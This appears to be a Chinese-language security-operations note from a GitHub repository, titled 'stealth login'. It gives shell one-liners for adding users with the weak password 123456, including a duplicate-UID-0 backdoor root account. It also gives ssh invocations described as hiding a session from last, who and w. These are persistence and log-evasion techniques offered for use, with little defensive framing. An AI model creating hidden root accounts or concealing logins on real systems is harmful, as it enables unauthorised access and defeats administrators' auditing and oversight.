



# 隐身登录

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2B%E7%9F%A5%E8%AF%86%E7%AC%94%E8%AE%B0-%E9%9A%90%E8%BA%AB%E7%99%BB%E5%BD%95.md)

> 添加的用户很容易被发现，不常用。

一句话添加普通用户：

```
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest
# useradd -p 方法 ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest
# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd
# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

一句话添加root用户：

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```



隐身登录：
隐身登录系统，不会被**last、who、w**等指令检测到

```
ssh -T username@host /bin/bash -i
ssh -o UserKnownHostsFile=/dev/null -T user@host
/bin/bash -if
```



```
```


